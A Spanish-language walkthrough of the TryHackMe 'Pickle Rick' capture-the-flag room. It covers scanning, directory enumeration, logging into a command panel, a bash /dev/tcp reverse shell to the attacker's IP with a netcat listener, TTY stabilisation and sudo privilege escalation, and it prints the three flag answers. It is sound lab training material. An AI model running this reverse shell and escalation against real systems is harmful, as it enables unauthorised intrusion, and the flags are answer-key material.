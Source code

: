 # Pickle Rick

![image.png](./imagenes/Imagenes_PickleRick/image.png)

Maquinas que vamos a utilizar Kali Llinux y Pickle Rick  [https://tryhackme.com/room/picklerick](./imagenes/Imagenes_PickleRick/https://tryhackme.com/room/picklerick)

- Vamos a mirar nuestra IP
    
    ```bash
    ifconfig
    ```
    
    ![image.png](./imagenes/Imagenes_PickleRick/image%201.png)
    
    En este caso como estamos en un VPN nuestra Ip esta en el interface tun0: IP : **10.21.203.172**
    

- La IP de la maquina victima es: **10.10.214.144**
    
    ![image.png](./imagenes/Imagenes_PickleRick/image%202.png)
    

---

```bash
sudo nmap -p- -sS -sV --min-rate=5000 -n -vvv -Pn 10.10.214.144
```

![image.png](./imagenes/Imagenes_PickleRick/image%203.png)

- Vamos a ver lo que esta corriendo en el puerto 80 atraves del navegador web.
    
    ![image.png](./imagenes/Imagenes_PickleRick/image%204.png)
    
    - Inspeccionamos el código fuente de la web `CTRL+U`
        
        ![image.png](./imagenes/Imagenes_PickleRick/image%205.png)
        
        Tenemos nuestra primera posible pista. un nombre de usuario:  `R1ckRul3s`
        

- Listamos directorios con Gobuster y buscamos posibles archivos con distintas extensiones.
    
    ```bash
    gobuster dir -u [http://10.10.214.144/](./imagenes/Imagenes_PickleRick/http://10.10.214.144/) -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh
    ```
    
    ![image.png](./imagenes/Imagenes_PickleRick/image%206.png)
    
    Encontramos una posible ruta donde probar el usuario que hemos encontrado así como el archivo robots.txt el cual vamos a mirar su contenido.
    
    - Contenido del robots.txt
        
        ![image.png](./imagenes/Imagenes_PickleRick/image%207.png)
        
        Nos lo apuntamos por si es alguna contraseña o nos pueda servir para algo mas adelante. `Wubbalubbadubdub`
        
    - Vamos a la pagina de Login.php y probamos el usuario y la posible contraseña que hemos encontrado
        
        ![image.png](./imagenes/Imagenes_PickleRick/image%208.png)
        
    - Nos encontramos una barra de comandos que responde a comandos de Linux aunque no a todos. Hacemos un `ls`  y vemos varios archivos de texto que puede ser interesantes.
        
        ![image.png](./imagenes/Imagenes_PickleRick/image%209.png)
        
    
    - Escribimos `less Sup3rS3cretPickl3Ingred.txt`
        
        ![image.png](./imagenes/Imagenes_PickleRick/image%2010.png)
        
         Ya tenemos la primera Flag: `mr. meeseek hair`
        
        NOTA: El archivo clue.txt no contenía nada interesante.
        
- Aprovechando que acepta comando vamos a intentar introducir un código para crear un reverse Shell.
    - Nos vamos a la web: https://www.revshells.com/
        
        ![image.png](./imagenes/Imagenes_PickleRick/image%2011.png)
        
        Obtenemos esta reverse Shell **`sh** -i >& /dev/tcp/**10.21.203.172**/**443** 0>&1` pero debemos adaptarla para que nos la coja correctamente añadiendo al principio `bash -c` y la revershell es importante ponerlo entre comillas rectas `" "`.
        
        `bash -c "**sh** -i >& /dev/tcp/**10.21.203.172**/**443** 0>&1"`
        
    - En un terminal nos ponemos a la escucha en el puerto 443 con netcat.
        
        ```bash
        sudo nc -nlvp 443  
        ```
        
        ![image.png](./imagenes/Imagenes_PickleRick/image%2012.png)
        
    - Lanzamos el comando de la Reverse Shell
        
        ![image.png](./imagenes/Imagenes_PickleRick/image%2013.png)
        
        Obtenemos una conexio
        
        ![image.png](./imagenes/Imagenes_PickleRick/image%2014.png)
        

---

### Vamos a empezar el tratamiento de la TTY .

Nos colocamos en la terminal de la maquina victima.

- Escribimos el siguiente comando  y veremos que adquirimos un prompt.
    
    `script /dev/null -c bash`
    
- Hacemos un **`CTRL+Z`**

- Escribimos a continuación.
    
    `stty raw -echo; fg`
    

- Escribimos `reset xterm` . Es posible que no se muestre cuando lo escribimos pero aun así lo escribimos y pulsamos Enter. Y nos aparecerá la siguiente pantalla.

- Por ultimo tenemos que exportar 2 variables. escribimos lo siguiente.
    
    `export TERM=xterm`
    
    `export SHELL=bash`
    
    Con esto ya abrimos estabilizado el terminal y ya nos aceptaría los comandos que antes no lo hacia.
    

---

- Nos movemos al directorio raíz y desde hay vamos investigando. en este caso voy al directorio `home`
    - `cd /`
        
        `cd home`
        
        `ls -la`
        
        ![image.png](./imagenes/Imagenes_PickleRick/image%2015.png)
        

- Miramos dentro de la carpeta rick
    
    `cd rick/`
    
    `ls -la`
    
    ![image.png](./imagenes/Imagenes_PickleRick/image%2016.png)
    

- Miramos el contenido del archivo
    
    `cat 'second ingredients’`
    
    ![image.png](./imagenes/Imagenes_PickleRick/image%2017.png)
    
    Ya tenemos la segunda Flag: `1 jerry tear`
    

---

Vamos a intentar escalar privilegios con Sudo -l

- `sudo -l`
    
    ![image.png](./imagenes/Imagenes_PickleRick/image%2018.png)
    
    Vemos que podemos ser root sin necesidad de contraseña.
    
    `sudo su`
    
    `whoami`
    
    ![image.png](./imagenes/Imagenes_PickleRick/image%2019.png)
    
- Seguimos investigando y vamos a la carpeta root
    
    `cd root`
    
    `ls -la`
    
    ![image.png](./imagenes/Imagenes_PickleRick/image%2020.png)
    

- Miramos el contenido del archivo 3rd.txt
    
    `cat 3rd.txt` 
    
    ![image.png](./imagenes/Imagenes_PickleRick/image%2021.png)
    
    Ya tenemos la tercera Flag: `fleeb juice`